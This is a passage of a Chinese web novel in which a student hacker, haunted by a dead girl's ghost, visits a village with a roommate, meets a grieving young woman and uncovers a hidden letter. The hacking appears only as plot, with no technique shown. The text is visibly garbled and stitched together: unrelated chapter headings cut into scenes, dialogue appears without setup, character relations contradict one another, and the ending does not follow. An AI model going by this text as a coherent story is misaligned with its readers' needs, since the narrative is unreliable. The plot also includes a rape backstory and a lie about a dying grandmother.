东方看着拉上的窗帘又出神的说道：“那么是谁帮我拉上窗帘的。”

老四一副无辜的看着一脸迷茫的东方。东方不说话，只是一口一口的咬着油条，猛然抬起头，对面的窗帘依然没有拉开，看起来沉闷的像个坟墓。

老四发觉东方好像陷入到了另一个难缠的问题中，本来在东方思考的时候他是不想打扰他的，但是想到小静，老四就嘴痒，终于还是忍不住的问道：“东方，你刚才说有了进展，到底有啥进展了？快点告诉我你找到小静没有？”

东方飘荡的思绪被拉了回来，一脸不耐烦的看着老四说道：“你怎么就那么关心她呢？你就不怕你哥们儿有一天因为这个女人被害死吗？”

一向喜欢言笑的老四一听到东方说这话，两只眼睛都冒火，怒气冲冲的说道：“东方，你说这话就不够意思了，这几个月来照顾你多尽心尽力啊。天热怕你中暑，天冷怕你感冒的，给你吃给你喝的，你这人咋就这么没心没肺啊？”

虽然老四这么做完全是为了小静才对自己这么好的，但是也不排除老四突然间的人品爆发，所以东方不好意思的笑了笑说道：“我是说这事很复杂，怕你吃亏。到底你和这个小静有什么渊源啊？”

老四低下了头，过了良久才说道：

“当我第一眼看见小静的时候我就觉得很熟悉，好像在哪里见过一样，后来小静消失之后我还在想。直到小静消失的第二天我才想起来，其实房东小静和我小时候认识的一个女孩子很像。那时候她爸妈离异了，她每天都跟他爸爸在一起。小朋友都欺负她，一开始我也是，后来我看见她躲在她家后院里哭，对着一个古老的开满花的樱桃树许愿，说希望我不再欺负她。后来我就成了她的好朋友，我们俩经常在一起玩，谁要是敢欺负她我就第一个站出来。久而久之，村里大人小孩都认为我们在一起恋爱。到初中的时候，我把我们之间那种亲密无间的行为认为是爱情。那个时候的她出落得很漂亮，很多男生都围着她转，我不止一次的使用暴力威胁那些男孩子离她远点，久了，她没有朋友了，但是她也变得和我很陌生了，再也没有曾经的那种默契和友好。再后来她就搬走了，一句话也没有留下。这么多年来我一直都在找她，但是却音信全无！”

听完老四的叙述，东方只能用“同病相怜”来形容他此刻的心情，却一句安慰的话也说不出，只能老老实实的报告这几天的成果：“我入侵到那家公司，但里面什么也没有。但不管怎么说这也算是入侵成功了吧，小静应该能出现了吧？”

老四听完东方的话，仿佛看到了希望从天而降，喃喃自语的说道：“如果老天再给我一次机会，我一定会告诉她，我那么做全都是因为我太喜欢她了。”

东方还在想着昨晚那个神秘的望远镜，还有今早拉上的窗帘，所以无力的靠在床上说道：“随便你吧，这些日子把我累坏了。”说完就注视着对面的楼房一动也不动了。

老四摇晃着东方的身体说道：“你倒是说说小静的消息啊？”

老四的提醒让东方想起来自己还没有具体的讲讲这些天来的进展。可是刚要开口的时候门铃却突然响了起来。老四一脸不耐烦的走向门边，估计心里是在骂娘呢。

“你好，我是李智，是网监安全部的，请问你是东方浩哲吗？”

门外一个温柔的男声响了起来，屋子里的东方直接从床上摔了下来，直接来了一个脸朝地。心里那叫一个慌啊。第一是因为这个网监的家伙，第二他一直在考虑，本来不帅的脸经过刚才的狗吃屎会不会变得惨不忍睹。

老四僵在了门前，脸上的表情阴晴不定，过了良久之后，他只好撒谎的说道：“那个，东……东方不在，不是，这里没有叫东方的人。”

完了，这回死定了，东方几乎开始绝望了。东方悄悄的爬到了窗台边上，看了看下面，准备逃跑，但是突然脑子里想到

### 侦隐伽游

看到了那个疯掉了的小偷，甚至可以联想到自己跳下去的下场。左思右想后觉得还是活着要比死了强，所以才怏怏不快地从窗台上走了下来。回头看了看老四，此刻正在口水乱飞地和那个网络部门的人周旋呢。

“我说了没这个人就是没这个人，你不能擅自闯进我家里。”

老四的样子越来越凶了，虽然东方一直怀疑老四这么做的目的完全是为了他私人的那点破事，但是东方还是很感动。

“求求你，让我进去吧，我真的是有正经事要找他！”门外的那个男人见老四这个家伙简直是软硬不吃，开始哀求了起来。

“什么正经不正经的，你们这些人整天就打着正经的旗帜干着不正经的事。”

老四磨死人的功夫东方早已经见识过了，听外面人的口气好像不是来抓人的，似乎真有什么事情。东方走到门口，看了看外面那个儒雅的男人，身后没有人，看起来只来了他一个。

“我是东方，请问你找我有什么事情吗？”东方忐忑不安地问道。

李智眼前一亮，说道：“你好，东方，我可以进去和你谈谈吗？”

东方看到李智并没有恶意，连忙让了进来。心里却一直在嘀咕着，来了就说自己叫什么就行了呗，还说网络什么的，真是吓死老子了。不过东方表面上还是很客气的，把房间里的垃圾移到了一边，找了半天的水杯才发现都是脏得够可以的。

“不错！”东方勉强找了个地方坐了下来：“你今天来有什么事情吗？”其实东方真的很害怕对方说发现自己涉嫌触犯网络安全法的哪一条等等，因为他不知道在李智把这句话说出来的时候，自己要不要去自首，还是落荒而逃，或者在监狱里呆上几年，然后出狱后有着一个永远也抹不去的污点。

但李智却神情沮丧地说道：“其实我招鬼了。”

NND我现在还没有和鬼脱离关系呢。虽然东方是这么想的，但是却不能这么说，只能询问道：“招鬼？什么意思？”

李智一脸绝望地看着东方说道：“我最近这一年来总是能看到一个神秘的女人在我家附近转悠，晚上打开电脑，屏幕上都是血红色的一片，我没有精神错乱，那都是真实的。”

东方同情地看了看李智，看来自己的心理承受能力还是很强的，至少没有被折磨成李智这样。为了安慰李智，只好说道：“我也是，那女鬼一定让你做了什么吧？”

李智似乎找到了知己一样说道：“对，她让我给一家网络公司配套一套绝对安全的防火墙。”

东方开始怀疑那个带有强悍报警器的防火墙就是这个家伙给配置的。为了调查清楚连忙说道：“那个公司叫什么名字？”

李智茫然地摇了摇头说道：“我把软件打包在一个垃圾桶里了。”

收垃圾的大妈大爷本着保护环境的精神给收走了，那女鬼还不吃了你啊？

李智哭丧着脸哀叹道：“这也是那个女鬼让我这么做的，本来我在软件里安装了一个跟踪器，第一天我发现跟踪器上没有了，可是还没等我反应过来，跟踪器就被卸除了，这个IP地址都没有截取到。”

东方觉得这个女鬼还不是一般的有点能耐，但是这个看起来精神萎靡的家伙怎么找到自己的呢？还没等问，李智就主动招了：“你的地址和姓名是在我家墙上找到的，是用红色的液体写上去的。”

“那你见过一个长相白皙，清秀的女孩子吗？大概一米六五左右，一头乌黑的长发？”

老四又开始精神百倍地打听着。

李智摇了摇头，说道：“我并没有见过她，我只是看到一双血红色的眼睛。”

东方点点头说道：“那你能告诉我，你小的时候和小静住在哪里吗？”

老四回答道：“是在东北的一个小山村里，小的时候我住在奶奶家里，小静和我同居。”

东方沉思了一会儿，说道：“那我们一起回去吧！”

老四不解地问道：“去我老家一趟？”

东方没有理睬老四，拿起电话跟老二简单说了下情况，然后动之以情地讲出了多年的兄弟感情，希望老二能给自己请20天假，结果老二还给东方打了两个电话。

李智做梦似的坐到了床边，阳光洒在三个人的脸上，安静祥和地凝聚在这个凌乱的空间里。


赶走李智后，东方突然心血来潮地打扫起房间来，不过房间的凌乱程度收拾起来可是很费力气的，所以整整收拾了一天。当房间变得干净的时候，东方开始注意到“一直很安静”的歌声是多么的忧伤。

不经意地翻看着从那台电脑上下载的图片，里面是那个女鬼死时的照片，图片是用数码相机拍下来的，没有自己在网络上看到的那样触目惊心，但是依然给人一种阴森森的感觉。看完了图片，东方开始一步步地还原这个女性死者的照片。

看着还原的照片，出现在东方眼前的是一个漂亮的女孩子，双眼有些空洞，比起上次出现在房间时缺少了很多的灵气。

东方转过身突然看到老四紧盯着照片，泪眼朦胧，嘴唇颤抖地说道：“是她，就是她，绝对不会错的。”

那一刻东方觉得其实老四和自己都一样，突然他有了一个想法，是不是这个女鬼就是老四青梅竹马的好友呢？如果是这样的话那么似乎所有的问号都可以迎刃而解了。

东方看着老四出神的样子说道：“老四，如果可以找到小静，我是说如果，无论她是生是死，我都希望你能够释然地对待。”

老四吃惊地抬起头，哽咽地说道：“如果可以，我会释然的。”

接下来东方给寝室里所有的兄弟都打了电话，结果和老二都是一个口气。老四却一脸愁眉苦脸的，东方连忙关心地说道：“老四，你没事吧？出来就开心些，别愁眉苦脸的。”老四像是吃了炸弹似的说道：“有事，能没事吗？你NND是请假出来的，班主任还资助你，我可是旷课，有可能会被学校开除的。”

很显然老师和他的距离比较遥远，并没有拉着他，倒是很着急地问道：“怎么了？东方别哭慢慢说，到底怎么回事呢？有什么事老师都会帮你的！”

东方一把鼻涕一把泪地说道：“老师，我奶奶快要病逝了，家里人怕我担心，所以没有告诉我，但是我现在一定要回去见她老人家最后一面，现在每分每秒，我都在想奶奶小的时候帮我洗衣服，帮我洗澡，病了喂我吃药这些情景……”

东方觉得时机开始成熟了，于是痛苦地说道：“老师，我能请假回家吗？”其实用这种拙劣的叙述和虚假的情感来请假，东方是一点信心都没有的，可是没想到老师却居然相信了。

老师坚定地说道：“当然可以了，如果你手里没有路费，老师可以借给你两千。”

东方感激涕零地说了声谢谢，就挂上了电话。一脸得意地看着身旁早已经目瞪口呆的老四，吹着口哨收拾行李去了。

不一会儿外面传来了老四的声音：“老师，555555555老师，我不活了，这不是东方他奶奶要病逝了吗？作为他多年的兄弟，听到这个噩耗我简直是痛不欲生，我一定要见他奶奶最后一面，不然我死也不瞑目，我……”

看着老四那要吃人的样子，东方只好安静地守在笔记本旁，想着笔记本里那个女鬼的照片。一夜过去了，火车终于到达了终点，老四带着东方坐了四个小时的汽车，终于来到了奶奶原来的山村。眼前的一切对于老四来说既陌生又熟悉，想着村里的一切都能想起小时候和小静在一起的欢乐，可如今这一切都不复存在了。

东方看着伤感的老四说道：“别这样，也许小静并没有死呢，或者她已经有所成就，有着不错的工作，大把的薪水，或者她归于平凡，结婚生子，有份不错的工作呢。”

老四整理了一下思绪，和东方一起来到远方表叔家里。农村的空气很清新，散落在整个天地间的都是绿色的芳草。院子里正飘着米饭的芳香。东方他们突然发现，肚子开始咕咕地叫了起来。

表叔看到老四几乎都认不出来了，一别经年表现得极其热情，连忙把两个人让进了房间里，又吩咐表婶多炒了几个菜。菜上来的时候，东方和老四就像是恶狼一样，对桌子上的美味佳肴一顿风卷残云的扫荡，吓坏了表叔和表婶，大气也不敢喘地看着两个孩子。

吃完了饭，老四终于见到了小静。表叔说：“哪有你说的那么严重啊，我感觉妹妹就是有点害羞吧。”表叔突然一笑，说道：“自从两年前她弟弟死了一直到现在，她就一直这样，我有时候看着她那眼神都害怕，好像要恨死谁一样。”

希若突然出现在大家的背后，扔下这句话就跑了出去。东方和老四两个人傻傻地看着希若离开的背影，然后转过身焦急地看着表叔。表叔叹息着说道：“你们不要见怪，继续吃吧，她一会儿就会回来。”

老四只好憨憨地笑了笑，继续吃了起来。东方却沉思了一会儿说道：“她好像并不是小静。”东方和老四看着希若缓缓离开的背影，老四最后的表情是无尽的伤怀。东方忽然明白了希若空洞无神的眼里传递出来的是什么，那是失望的疼痛和悲哀，那是绝望的骇然，那是一种仇恨的冷漠。

东方放下了碗筷，笑了笑说道：“我出去一下，逛逛，顺便打听下这附近谁家里有网线。”表叔连忙收起悲哀说道：“别去了，整个村子里就咱家有宽带，这是给希若安装的。她每年暑假回来都会用的，这不是，唉，学校说希若有阑尾炎，所以让她回家休息半年。”

表叔最后的表情是无尽的伤怀。东方依然坚持要出去一下。走在午后的阳光中，东方一直在村子里转圈。希若冷漠地看着东方和老四，不知不觉，东方竟然走到了村外的小河边，没想到却在那里看到了希若。希若回眸，不掩憔悴的眼，碧澄澄流动的河水在阳光中变得温柔而又伤感，偶尔微风轻轻地吹拂着希若的发梢，像极了刚下凡的仙女，可是哪个仙女会这样的凄伤？

### 铁臂驯场

东方坐在希若的身边，转过脸凝视希若。希若不知道为什么突然笑了起来。东方看着希若说道：“你好，我是刚才那个……”没等东方说完，希若一脸不耐烦地扭过头厌恶地说道：“滚开！”东方呆呆地愣在那里，不知道是该听话地滚开，还是没皮没脸地待在那里，最终他不但选择了没皮没脸，并且还没皮没脸地说道：“你别这样，我不是来追你的，我只是想跟你了解点情况。”希若差点没被这个自大的家伙气死，恨恨地瞪了东方一眼，站了起来准备离开。东方也紧张地站了起来，继续说道：“希若，不要走，我只是想问问你，你们前街的那个小静你还有印象吗？”希若并不理会东方，在她心中除了死去的男友，任何人的死活对她来说都是无关紧要的，此刻的自己好像是一具行尸走肉一样，生活、梦想毫无意义。小静那个文静开朗的女孩子在她心目中的样子渐渐地由模糊而变得清晰，那是她童年最好的玩伴，但是她却不愿意和别人谈论这些。东方更加焦急地说道：“她死了。”希若的心颤抖了起来，死对于她来说是多么可怕的字眼，而她也实在无法想象那个清秀的女孩子会死掉。但这些折磨自己又有什么关系呢？自己和最爱的人不也已经天人永隔了吗？东方见希若仍然无动于衷，不禁开始在心里感到反感，但依然不想放弃地说道：“可是我能看见她，我能和她说话，她给了我一个谜团，让我无法猜测。”希若停住了脚步，转过身看着东方，冷漠地说道：“你说她死了，而且你还看见了她？你是怎么做到的？”东方迟疑了一下，明白希若误会了自己会通阴，想利用自己见见男朋友，简单得就像在开国际玩笑，所以连忙解释道：“我不会通阴，我只是想知道怎样来摆脱小静的束缚，也不知道她是什么目的，就算她想让我帮她，但是这样不声不响的，我也帮不了她啊？”希若看了看东方，淡定地说道：“你是小静什么人？”东方迟疑了，半天没缓过神来说道：“不，不是什么人啊！所以我才纳闷为什么她来找我呢？”

东方沉思了一下，到底自己是为了什么呢？如果单纯是为了躲避小静，那么会有很多办法，至少他没有竭尽全力去躲避这场灾难，或者真正驱使自己走到今天这一步的是那份猎奇心，还有小静藏在人面背后的悲哀吧。东方思索了一会儿，非常认真地对希若说道：“更多的，我是想知道这事情背后的真相。”希若看着东方的眼睛，那里没有谎言也没有虚伪，那张坚毅的脸上带着倔强和不屈，这样的表情是希若多年都没有见到过的，也是她多么想要再次重温到的。她慢慢地走进东方，颤抖地伸出苍白的手，轻轻地抚过东方的眉眼直至下颚，那样的温柔那样的美好。几年之前绚丽的爱情，缠绵的快乐都在指尖缠绕、纠结。她呢喃地念着梦里无数次呼唤过的名字。冷风轻柔地拂过，吹冷了希若心底燃起的希望和热情。眼睛里闪耀的光芒在瞬间变淡，直至被冷漠所取代。希若还是冷酷的希若，她收起手，心痛地说道：“我走了。”留下东方一个人站在原地错愕地感受着刚才的温存，一时还不能自已。望着希若渐渐消失的背影是那么的落寞与踉跄，心跳竟然有那么一瞬间差点就停止了跳动。他知道希若在那一瞬间认错了人，但东方仍然忍不住希若指尖留下的芬芳，耳旁仍有她轻柔的呼吸。她失去的是怎样的爱情，可以这般的炽烈，这般的疯狂。等东方在这场温柔的梦乡中醒悟过来的时候，希若已经走得很远。东方只好叹息着走了回去。看到东方回来了，老四连忙迎了过去，一脸失望地说道：“我问过表叔了，他们说自打小静搬走后就从没有过她的消息。”东方望了一眼希若紧闭的房门说道：“那我们明天去你以前的中学看看吧。”那里似乎是老四的伤心地一样，他垂下了头，小声地嘟囔道：“去干什么？我一辈子都不想去那个充满悲伤的地方了。”

表叔和表婶竟然站在院子中央，敲着大门吵吵着什么。“表叔，怎么了？”东方好奇地看着这两个人。表叔叹息着说道：“希若不相信她男朋友已经死了，说什么都要回到出事地点去看看，说可能会遇到她男朋友。”东方一听就知道希若是听到了今天自己的话，让希若相信了人死了就会有鬼魂的存在。这个可糟了，都这么晚了，万一出现什么意外该怎么办呢？东方不动声色地安慰着两个老人。东方说：“希若，我只是见到了小静的灵魂，但是也许这一切不过是我的幻觉而已。”希若转过身，脸上挂满了泪痕：“我知道小静死了，但是前几天我确实是看到小静了，如果你看到她是分明的鬼，那么我坚定我绝对不是幻觉。那样真实的人，像是活着时一样，她还是那样文静，却也格外的忧伤。”东方轻轻抚摸着希若的头发，心疼地将这个可怜的女孩抱在怀里，一遍遍地温柔说道：“其实你该释怀了，就算再痛苦的爱情也一样无法穿过世俗的伦理，命运的安排，即便是悲哀，也要勇敢地面对。你这样对待自己，会让他也心痛的。也原谅你的父母吧，如果有一天你真的见到了他，那么你会发现现在的你有多愚蠢，别做让自己后悔的事情了。”东方不知道希若到底有没有听进自己的话，她只是哭，失声地哭。用一种近乎呜咽的感觉，像是受伤的精灵，哭得让人心碎。东方心都碎了。希若看着窗外的月光散落在干净的街道上，希若一个人孤零零地站在这路中间，期待着他可以出现。“希若，你没事吧！”东方着急地问道。希若回头道：“我只是在沉默中等待我想要的答案。”希若转过身去，对着身后的两个人说道：“你们其实很残忍，知道吗？为什么他不会出现，他不出来见我，我只是想和他见最后一面，说句话，我死都知足了。”希若终于哭了，在月光下显得格外地悲凉。

### 荒芜的宅院

#### 鬼网超生（六）

海边一粒沙

东方说道：“知道为什么有些大雁飞不过那宽阔的湖泊吗？”

希若迎着月光，迷茫地看着东方，显得有些不安和彷徨。

东方接着说道：“因为彼岸已经没有了等待和救赎，就算是飞过去了也是颓然的心碎，那爱情也会逐渐地衰老和死去。”

希若似乎明白了什么，低下眼帘沉思着。是的呀，这个世界上如果有救赎，就不会有痛不欲生的挣扎，如果有执着的等待，就不会有瞬间苍白的老去。爱情没有救赎，也经不起似水流年苍老般的等待。

其实这些话是东方忘记了从哪个女生的作业本上看到的，据说那段时间这个女生失恋了，作业本上都是这些乱七八糟的语句。东方不知道自己是哪根筋搭错了，觉得这文字特有内涵于是就背了两句。没想到希若却用一种大彻大悟的眼神看着东方，莞尔嫣然的一笑。

东方安慰道：“别难过了，就让一切都淡淡的过去吧。走，跟我回家吧！”说完轻轻地牵起希若的手，冰冷的气息缠绕在指尖，战栗的除了两个人的指尖还有心脏。

希若微笑而又调皮地说道：“你不想去小静的家里看下吗？这次你来好像带着很多的困惑，是吗？”

东方黯然地低下头说道：“其实我知道也没什么可看的，毕竟这件事肯定不是那么简单的，从一开始的恐慌脆弱，到最后的坦然我已经想开很多了。这么晚，我还是送你回去吧，我总感觉那个院子挺恐怖的，所以我们先回去，明天再说吧。”

希若却坚定地说道：“今晚吧，要不然错过了机会可就找不到线索了。”

线索！？那是什么东西呢？难道希若知道点什么？

一双光滑的小手缠绕在东方的手上，东方不由自主地跟着希若向小静的院子跑去。两个人站在一个阴森森的院子前，树叶随着风沙沙地作响，皎洁的月光反而让整个气氛更加的诡异。

东方不知道为什么双腿有些发抖，声音颤抖地说道：“希若，你确定这个院子里没有鬼，妖怪什么的吗？”

希若一脸鄙视的神情说道：“你还是男人吗？”

东方坏坏地一笑：“好吧，我从实招来，我只是想吓唬你一下，顺便可以占点便宜。”

东方很后悔自己说了这样一句招人恨的傻×话，结果希若一巴掌拍了过来，东方差点从地面上飞了起来，后悔自己为什么不早点知道希若曾经学了十年的跆拳道？这一巴掌拍过来，差点没拍死东方。事后东方的嘴巴肿了半个月之久。

看着希若走进了院子，满眼星星的东方连忙跟了上去，嘴里却还嘟囔着：“哎呀，希若，你快点看看我这嘴巴还在不，我怎么感觉麻麻的，好像嘴巴被你一下子扇没了，看看，快点看看，是不是下巴都被你扇没了……”

希若忍不住笑了起来，看着东方肿起来的嘴唇，假装生气地说道：“这都是你活该自找的，要不是你胡说八道，能有这个下场吗？”

东方脑袋晕晕乎乎地说道：“还不是想逗你开心嘛，我的脑袋怎么这么晕呢？”

希若错愕地停在原地，看着东方委屈的表情，脸色微微地红了起来，声音小小地说道：“对不起，谢谢你！”

东方脑袋嗡嗡地响着，根本就没有听清楚。一直走到屋门前，看着到处都是蜘蛛网的房门，证明了这个院子的苍老和凄凉。轻轻地推了推门，门应声而开，灰尘一下子四处飞扬，房间里传来了一股霉味，让人极度气闷。

打起火机，微弱的火光在幽暗的空间里显得诡异飘忽，摇曳中映照着东方和希若两个人的脸庞。东方不由得打了一个寒战，转身拉着希若的手，走进了房间。

房间里布满了厚厚的灰尘，摆设也非常简单，像是在无声地诉说着曾经的过往。此刻的东方已经不觉得这个房间到底有多恐怖，倒是从房间的摆设来看，小静的童年有多么凄苦。小小的屋子里遍地的酒瓶子，虽然东方闻不到酒气熏天的气味，却能感觉到这个家的残破不堪和小静弱小的身躯蜷缩在角落的样子。

“啪！”刺眼的强光射得东方的眼睛有些疼，几秒钟之后才慢慢地适应了这屋子里的一切。凌乱的酒瓶，散落一地的作业本，还有被撕得粉碎的照片，到处都折射着小静儿时生活的不幸。

希若抚摸着开关，感叹地说道：“其实，小静并不快乐，但是她却极力地装作很快乐，她就是那么倔强和要强。”

东方狐疑地想，为什么老四一直都没有跟自己提过呢？好像他对小静的了解仅是如何疯狂的爱慕，却对小静的事情似乎一无所知，至少他从来没有跟自己提过小静小时候的悲惨命运。东方疑惑地问道：“小静后来为什么要搬走呢？”

希若看着满地的狼藉，脸色变得很难看，沉默了良久后才说道：“她、她被人强奸了。她无法承受这样的事情，无论他的父亲怎么逼问，她都没有说出自己被谁强暴了，最后她的父亲差点把她打死。那个冬天的某个深夜，她带着满身的伤痕离开了这个家。”希若眼圈发红地说道：“她的离开让她的父亲醒悟到自己是多么爱自己的女儿，不久后就整理自己的行李，也匆匆地离开，踏上了漫长的寻女之路，这一走就是这么多年。”

东方震惊地看着希若说道：“小静就是这样离开山村的？”看着希若悲伤地点点头，东方心里开始恨起老四来，他已经知道强奸小静的人是谁了，只是他从来没有想到老四居然使用这样荒唐的借口来掩盖他的罪恶。在心里东方瞧不起老四这样的人，但却无法在希若的面前表现出来，只能在内心里纠结着。

“东方？东方？”希若见东方有些走神，在心里不由地有些怀疑了起来，试探地问道：“你知道一些事情，是吗？”

东方慌忙地掩饰道：“不、不是，只是被小静的遭遇震惊了。”东方有些忧伤，他确实为小静的命运所动容和震惊。

希若见东方果然忧伤地紧锁着双眉，目光中隐藏着深深的悲悯。为了打破这种忧伤的氛围，希若说道：“你知道吗？上次小静来的时候告诉了我一个秘密，说如果一个男孩子为她感到忧伤，那么就告诉他一个秘密。”

东方心情仍然处于比较萎靡的状态下，主要不是因为小静的身世有多么让他难过，最重要的是他觉得自己看不懂老四，他到底是一个怎样的人呢？所以无精打采地说道：“什么秘密。”

希若神秘地一笑：“现在还不是时候，要等到午夜12点左右呢，不过暂时收起那副悲伤的神情好不好，这样的你没有原来那样帅气。”

东方听到希若夸自己帅气，马上就像是鱼儿拥有大海一样，兴奋地叫道：“我就知道希若你太有眼光了……”不过因为太激动地说话，牵动了那半边肿胀的面孔，这时候东方才发觉这句夸赞不过是一句客套话。


而已，无论如何现在的自己都无法和帅气画上等号，因为那半张脸跟猪头似的。心里不由叫苦不迭地发愁，希若这个丫头下手也太狠了。

希若尴尬地吐了吐舌头，随后甜甜的一笑：“真的，现在胖胖的，很可爱。”

东方无奈地沉默了起来。女人揍了你，那么你就是可爱；要是男人揍了女人，那么这个男人就会被女人骂成是禽兽、猪狗不如。所以男人永远不要和女人讲理，也不要和女人动用武力，因为无论女人是如何的柔弱，面对男人的时候她们却永远是胜利的一方。

希若拂去椅子上的灰尘，安静地坐在房间里，看着窗外的月光说道：“你相信这个世界有来世吗？”

东方满脑子里都是小静和老四之间的非正常关系，突然希若这么一问，让东方有些应接不暇，沉思了一会儿说道：“别傻了，我不相信有来世，所以要好好地活在这一世里。即便是有来世也弥补不了这一世的遗憾，而且谁也无法保证来世有没有遗憾。”

希若若有所思地看着东方，说道：“东方，如果我成为你的女朋友怎么样？”

什么？女朋友？东方下巴就快要吓掉了。是这个女人有毛病，还是所有的女人都有毛病呢？刚才还死去活来，差点就要追寻死去的男友仙逝，现在就要做自己的女朋友？东方沉吟地说道：“这个，也太突然了吧，我有点接受不了。”不过在东方心里却澎湃得快要爆炸了，只是为了表明自己非常的传统和负责，不得不说什么突然之类的话。

希若拉着东方坐在自己的身边，头轻轻地靠在东方的肩膀上说道：“我是一只南飞的雁，在自己的世界里徘徊，看不清自己，也看不清未来。听了你的话我突然明白了，其实我迷茫无助是因为彼岸没有了等待。如果你不愿意，不愿意成为我的彼岸，我还可以守在原地不飞，直到彼岸的到来。”

东方愣是没有听懂希若说的是什么，什么彼岸啊、南飞啊，可是最后那句话的意思东方却听懂了，于是把脑袋摇得和拨浪鼓差不多，紧张激动地说道：“不是，我很愿意，只是害怕你将来会后悔，后悔你今天的决定。”

希若闭上眼睛，吐气如兰，温柔细雨地说道：“我想好好珍惜，努力的让自己快乐。这么长时间我过的一点也不好。”

东方能感觉到希若有多么脆弱，心痛地接住希若说道：“嗯，我会珍惜你的。”东方说完这句话的时候，反反复复地审问自己到底爱不爱眼前这个漂亮的女孩子，但是答案却令自己很迷茫。

午夜的月亮很美，散发着柔和的光。东方突然觉得这个世界上一切都是那么美好，是因为这怡人的月光，还是怀里迷人的希若？希若缓缓地睁开了眼睛，看着月光透过窗玻璃的灰尘照射在房间里。一块比较干净的玻璃折射着这明朗的月光，折射的光芒直接照射在地上的一块砖头上，似乎这砖头变得有些不一样了。希若凝视了片刻，连忙招呼东方要他帮自己弄开那块砖。

东方头大地看着希若，就感觉自己像是活在一本小说里一样，到处都是稀奇古怪的事情。不过就算是置身在一个如梦幻般的电影中，也要演下去，直到剧终收场。

希若没好气地吼道：“你看什么看啊？快点过来帮忙啊，不要忘记这也是在帮你。你倒好，整个一悠哉闲人，一点都不懂得怜香惜玉，我的手都快抠破了。”希若念叨着，满脸的不快，仿佛此刻的希若只是一个任性撒娇的孩子。东方连忙蹲下去，和希若一起抠起地下的瓷砖。一个黑色的塑料布包呈现在两个人的眼前，东方连忙把黑色的包裹拿了出来，小心翼翼地打开外面的塑料袋，里面是一个黑色的盒子。说实话东方本身就不喜欢黑色，更何况偏偏是在这样离奇的夜晚，总感觉这黑色的后面隐藏着什么可怕未知的事物。不过东方还是慢慢地打开了盒子，幸好里面没有蹦出一个妖怪或者长相恶心的女鬼。

盒子里安静地躺着一个白色的文件夹，周围散落了很多的防潮剂。东方放下盒子，打开了文件夹，首先印入眼帘的是一封信。

> 东方浩哲：
> 你好！
> 当你来到这里的时候，说明你已经是一个心思非常缜密的人了，不过你要走的路还有很多，下面我要给你一个建议。这里面有天基公司的介绍和资料，我希望你能够熟读背下所有的内容。然后里面有你的一张休学申请书，也就是说从现在开始你已经休学了。不过不用担心，你的毕业证明，这当然也是一份真正的证件，是你们学校承认的。接下来你要到这家公司去应聘高级主管的职务，当然这个是有很大的困难的，不过我希望你能做到，否则接下来你的事情会很麻烦。不过假如你按照下面描写的流程走，我想你还有百分之一的机会。

看完这封信后，东方鼻子差点被气歪了。这算什么？赤裸裸的威胁吗？东方生气地扔下信，愤恨地说道：“好像我是机器人一样，这个人不人鬼不鬼的家伙，真是可恶！”

希若疑惑地看着东方问道：“这个字体不是小静的。”

东方一肚子怨气地说道：“有什么是不是，她离开的时候你们才多大啊？”

希若摇摇头说道：“我还是感觉这不是小静的字体，反正不是。小静的字很娟秀，很漂亮，但这封信的字体太难看了。”

东方又仔细地看了看信，很显然希若说的没错。笔者试图努力写好每一个字，但依然看起来就像小学生刚练写字一样，生硬得要命。但在这样的情景下，那生硬的文字看起来却更加诡异。

看着外面黑乎乎的夜色，一阵风吹过，阴冷的气息铺天盖地地袭来，疯狂地往毛孔里钻。东方神情慌张地关上灯，拿着东西拉着希若向外面走了出去。

回到希若家里的时候，希若的父母泪流满面的迎了上来，一把抱住希若痛苦不已地说道：“孩子，你去哪里了？担心死我们了，以后别这样了，行吗？求求你了。”

希若动容地抱着父母重复地说道：“对不起，是我太任性了……”

希若的父母惊异地看着希若，不知道自己的女儿为何突然间变得这么懂事，只是狐疑地看了看东方。东方会心的一笑：“希若，现在是希若的女朋友，如果您二老愿意的话，我会好好保护她的。”

这句话把在场的所有人都惊地呆住了，老四像看待外星人一样看着东方说道：“不会吧，这么快就搞定了，你是不是用了什么迷幻药啊？”

东方现在是怎么看老四就怎么不顺眼，总感觉是这小子伤害了小静，于是就毫不客气地给了老四狠狠的一拳头。老四呲牙咧嘴的怒吼道：“你小子也太狠了，想杀人啊？”老四怒气冲冲地盯着东方，这才发现东方的脸肿得老大，仔细一看好像和猪头有的一拼。

“东方，你的眼睛怎么了，弄得跟傻X似的，这是被人给和谐了？”进屋这么久了，老四他们几个人才发现东方那肥硕的大脑。东方无奈了，由此看来自己的存在感简直是太薄弱了。

希若的父母看了看希若通红的脸，差不多明白了大概，无奈地摇摇头说道：“其实，你和希若交往我倒是没什么意见，不过我希望你能够善待这个孩子。她倔强任性，但很容易受伤。”

东方出神地看着希若，心里有一种说不出的感受。真没想到仅仅一天的时间就结束了自己的单身生活。对于未来，两个人的未来东方还真是有些彷徨，但事情已经发展到了这个地步，也只好默许地点点头，算是给希若的家人一个无声的承诺。

老四很懊恼地看着东方，好像自己跟东方脱离了一会儿就已经发生了很多惊天动地的大事，连忙拉着东方神秘兮兮地说道：“那个，东方，行啊，连我妹妹都敢泡，来跟我说说经过，你们俩出去了那么久，还是大晚上的，说，都发生了什么？”

东方冷漠地看了老四一眼说道：“我没你不要脸，滚一边去，我要睡觉了！”说完就走向了早已经安排好的房间。老四震惊地看着陌生的东方，良久才一拐一拐地朝着自己的房间走去。

第二天早上，老四醒来的时候看见东方已经收拾好了东西，正拉着希若一本正经地说道：“叔叔阿姨，请你们放心的把希若交给我吧，我会照顾好她的。”希若的父母满脸陪笑地说道：“谢谢你啊东方，这丫头真的长大了。”东方一脸媚笑地说道：“别这么客气，那么我和希若就走了。”说完拉着希若就走了出去。老四干巴巴地喊道：“哎，东方，你干什么啊？你走了我怎么办啊？”

东方软软的，头也不回地继续往前走着。希若依偎在东方的身畔，小鸟依人地依靠在东方的肩膀上说道：“我们走吧。”东方看着希若，心里莫名其妙地疼了起来，但还是坚定地带着希若走向了花车站的方向。

上了花车，东方仍然不停地回头，看着躺在地上的老四，那份对兄弟的不舍和疼惜竟然悄悄地蔓延开来。但他没有回头，而是跟希若一起，向花车站的方向走去。

![img/0c8d85b24355c057c43ae45c77e63dc3_215_0.png]

